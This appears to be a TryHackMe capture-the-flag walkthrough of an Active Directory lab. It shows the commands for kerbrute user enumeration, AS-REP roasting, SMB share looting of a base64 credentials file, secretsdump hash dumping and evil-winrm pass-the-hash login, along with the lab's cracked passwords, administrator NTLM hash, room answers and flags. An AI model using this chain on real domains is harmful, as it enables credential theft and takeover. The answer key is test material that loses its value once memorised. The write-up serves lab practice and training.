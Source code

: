 # Installing Impacket 
```
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```

# Installing Bloodhound and Neo4j
```
apt install bloodhound neo4j
```
  Nmap scanning 
```
sudo nmap -A -p- -T5 10.10.197.116 -oN nmap_log
```
| Questions | Answers |
|----------|-------|
| What tool will allow us to enumerate port 139/445 ? | enum4linux |
| What is the NetBIOS-Domain Name of the machine ? | THM-AD |
| What invalid TLD do people commonly use for their Active Directory Domain? | .local |


# Enumerating Users via Kerveros 

## Installing the kurbrute 
```
git clone https://github.com/ropnop/kerbrute.git
```
## running user enum 
```
./kerbrute/dist/kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.197.116 user_list -o valid_user_names
```

| Questions | Answers |
|------|----------|
| What command within kerbrute will allow us to enumerate valid usernames ? | userenum | 
| What notable account is discovered ? (These should jump out at you) | svc-admin |
| What is the other notable account is discovered ? (These should jump out at you) | backup |

# Abusing kerberos 

| Questions | Answers |
|------|------------|
| We have two user accounts that we coould potentially query a ticket from. Which user account can you query a ticket from with no password ? | svc-admin |
| Looking at the Hashcat Examples wiki page, what type ;of kerberos hash did we retrieve from the KDC? (Specify the full name) ? | Kerberos 5, etype 23, AS-REP |
|What mode is the hash ? | 18200 |
| Now crack the hash with the modified password list provided, what is the user accounts password ? | management2005 |


# Back to the Basics
  
password for svc-admin 
``` management2005
```
  
to list all shares 
```
smbclient -U spookysec.locl/svc-admin -L //10.10.197.116
```
  
to show the backup files
```
smbclient -U spookysec.locl/svc-admin //10.10.197.116/backup
get credentials.txt
exit
```
decoding the base64 to string
```
cat backup_credentials.txt | base64 -d
```
| Questions | Answers |
|-----|---------|
| What utility can we use to map remote SMB shares ? | smbclient |
| Which option will list shares ? | -L |
| How many remote shares is the server listing ? | 6 |
| There is one particular share that we have access to that contains a text file. Which share is it ? | backup |
| What is the content of that file ? | YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw |
| Decoding the contents of the file, what is the full contents ? | backup@spookysec.local:backup2517860 |


# Elevating Privileges within the Domain

dumping the hash
```
python /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.10.197.116 spookysec.local/backup:backup2517860@10.10.197.116 | tee dump_file.txt
```

| Questions | Answers |
|-------------|----------|
| What method allowed us to dump NTDS.DIT? | DRSUAPI |
| What is the Administrators NTLM hash ? | 0e0363213e37b94221497260b0bcb4fc |
| What method of attack could allow us to authenticate as the user without the password ? | pass the hash |
| Using a tool called Evil-WinRM what option will allow us to use a hash ? | -H |


# Flag submission pannel 

login as administrator 
```
sudo evil-winrm -i 10.10.197.116 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```

| Users | Flag |
|-------|------|
| svc-admin | TryHackMe{K3rb3r0s_Pr3_4uth} |
| backup | TryHackMe{B4ckM3UpSc0tty!} |
| administrator | TryHackMe{4ctiveD1rectoryM4st3r} |
| 





